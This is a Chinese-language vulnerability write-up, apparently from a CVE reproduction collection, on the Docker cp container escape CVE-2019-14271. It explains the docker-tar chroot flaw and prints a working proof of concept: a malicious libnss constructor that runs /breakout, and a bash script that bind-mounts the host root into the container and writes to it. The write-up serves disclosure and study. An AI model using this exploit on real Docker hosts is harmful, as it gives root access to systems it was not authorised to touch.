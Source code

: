 # CVE-2019-14271 Docker copy漏洞

### 一、漏洞简介

### 二、漏洞影响

Docker 19.03.1

### 三、复现过程

**Docker cp**

Copy命令允许从容器、向容器中、或容器之间复制文件。语法与标准的unix cp命令非常相似。要从容器中复制`/var/logs`，语法是`docker cp container_name:/var/logs /some/host/path`。

从下图所示，要从容器中将文件复制出去，Docker使用了一个名为docker-tar的帮助进程。

![](images/15889982503372.png)


图 1. 从容器中复制文件

docker-tar是通过chroot到容器，将请求的文件或目录存档，然后将生成的tar文件传递给Docker daemon，然后由daemon提取到主机的目标目录中。

注释：CHROOT就是Change Root，也就是改变程序执行时所参考的根目录位置。CHROOT可以增进系统的安全性，限制使用者能做的事。

![](images/15889982576865.png)


图 2. docker-tar chroot到容器中

Chroot主要是为了避免系统链接的问题，当主机进程尝试访问容器中的文件时就可能会引发系统链接问题。如果访问的文件中有系统链接，就会解析到host root。因此，攻击者控制的容器就可以尝试和诱使docker cp在主机而非容器上读写文件。去年有许多Docker和Podman相关的系统链接CVE漏洞。通过chroot到容器的root，docker-tar可以确保所有系统链接都可以高效地解析。

但，chroot到容器然后从容器中复制文件可能会引发很严重的安全问题。

**CVE-2019-14271**

Docker是用Golang语言编写。有漏洞的Docker版本是用Go v1.11编译的。在该版本中，一些含有嵌入C代码（cgo）的包会在运行时动态加载共享的库。这些包包括net和os/user，都是docker-tar使用的，而且在运行时会加载多个`libnss_*.so`库。一般来说，库是从host文件系统加载的，但因为docker-tarchroot到了容器，因此会从容器文件系统中加载库。也就是说docker-tat会加载和执行来源于容器或由容器控制的代码。

需要说明的是，除了chroot到容器文件系统外，docker-tar并没有被容器化。它是在host命名空间运行的，权限为root全新且不受限于cgroups或seccomp。因此，通过注入代码到docker-tar，恶意容器就可以获取host主机的完全root访问权限。

可能的攻击场景有Docker用户从另一个Docker处复制文件：

容器运行含有恶意`libnss_*.so`库的镜像

容器中含有被攻击者替换的`libnss_*.so`库

在这两种情况下，攻击者都可以获取主机上的root代码执行权限。

### 漏洞利用

为利用该漏洞，研究人员需要先创建一个恶意libnss库。研究人员随意选择了libnss_files.so文件，下载了库函数的源码，并在代码中加入了一个函数——run_at_link()。研究人员还为该函数定义了constructor属性。constructor属性表明run_at_link函数在进程加载时会作为库的初始化函数执行。也就是说，当Docker-tar进程动态加载恶意库时，run_at_link函数就会执行。下面是run_at_link的代码：


```bash
#include ...

#define ORIGINAL_LIBNSS "/original_libnss_files.so.2"
#define LIBNSS_PATH "/lib/x86_64-linux-gnu/libnss_files.so.2"

bool is_priviliged();

__attribute__ ((constructor)) void run_at_link(void)
{
     char * argv_break[2];
     if (!is_priviliged())
           return;

     rename(ORIGINAL_LIBNSS, LIBNSS_PATH);
     fprintf(log_fp, "switched back to the original libnss_file.so");

     if (!fork())
     {

           // Child runs breakout
           argv_break[0] = strdup("/breakout");
           argv_break[1] = NULL;
           execve("/breakout", argv_break, NULL);
     }
     else
           wait(NULL); // Wait for child

     return;
}
bool is_priviliged()
{
     FILE * proc_file = fopen("/proc/self/exe", "r");
     if (proc_file != NULL)
     {
           fclose(proc_file);
           return false; // can open so /proc exists, not privileged
     }
     return true; // we're running in the context of docker-tar
}
```

查/proc目录完成的。如果run_at_link运行在docker-tar环境下，那么目录就是空的，因为procfs挂载在/proc上只存在于容器的mount命名空间。

然后，run_at_link会用恶意libnss库替换原始库。这保证了漏洞利用运行的随后进程不会意外加载恶意版本，并触发run_at_link执行。

为简化该漏洞利用，run_at_link会尝试在容器的/breakout路径下运行可执行文件。这样漏洞利用的其他部分就可以用bash写入，而非C语言。让逻辑的其他部分在run_at_link外，意味着在漏洞利用每次变化后无需重新编译恶意库，只需改变breakout二进制文件就可以了。

![](images/15889982979873.png)


利用CVE-2019-14271打破Docker

在该漏洞视频中，Docker用户会运行含有恶意libnss_files.so的恶意镜像，然后尝试从容器中复制一些日志。镜像中的/breakout二进制文件是一个简单的bash脚步，会挂载host文件系统到/host_fs的容器中，并将消息写入host的/evil目录。
/breakout脚本代码如下：


```bash
umount /host_fs && rm -rf /host_fs
mkdir /host_fs


mount -t proc none /proc     # mount the host's procfs over /proc
cd /proc/1/root              # chdir to host's root
mount --bind . /host_fs      # mount host root at /host_fs
echo "Hello from within the container!" > /host_fs/evil
```

四、参考链接

https://xz.aliyun.com/t/6806